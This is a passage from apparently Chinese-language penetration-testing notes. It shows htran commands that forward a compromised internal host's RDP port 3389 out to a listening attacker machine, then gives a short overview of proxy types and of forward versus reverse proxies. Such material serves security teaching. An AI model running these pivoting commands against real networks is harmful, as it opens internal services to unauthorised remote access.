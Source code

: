 将B的3389转为本地的4444端口

![](https://s2.ax1x.com/2019/09/19/nbXNMF.png)



方法2：

攻击机执行

```
htran -p -listen 8888 9999
htran -p -listen [监听本机的8888端口] [将流量转发到本地的9999]
```

内网主机执行

```
htran -p -slave 192.168.69.43 8888 127.0.0.1 3389
htran -p -slave [攻击机IP] [攻击机所监听的端口] [本机IP] [本机要转发的端口]
```

在攻击机执行：

![](https://s2.ax1x.com/2019/09/19/nqMsHJ.png)



## 代理

代理(Proxy)，也称网络代理，是一种特殊的网络服务，允许一个网端（一般为客户端）通过这个服务与另一个网络断（一般为服务器）进行非直接的连接。一些网关、路由器等网络设备具备网络代理功能。一般认为代理服务有利于保障网络终端的隐私或安全，防止攻击。



**代理的分类**

+ HTTP代理

+ SOCKS代理

+ FTP代理

+ Telnet代理

+ SSL代理



## 区分正向代理和反向代理 ##

 正向代理中，proxy和client同属一个LAN，对Server透明

 反向代理中，proxy和server同属一个LAN，对Client透明



一个代理的是客户端一个代理的是服务端

![](https://s2.ax1x.com/2019/09/19/nq6ta9.png)


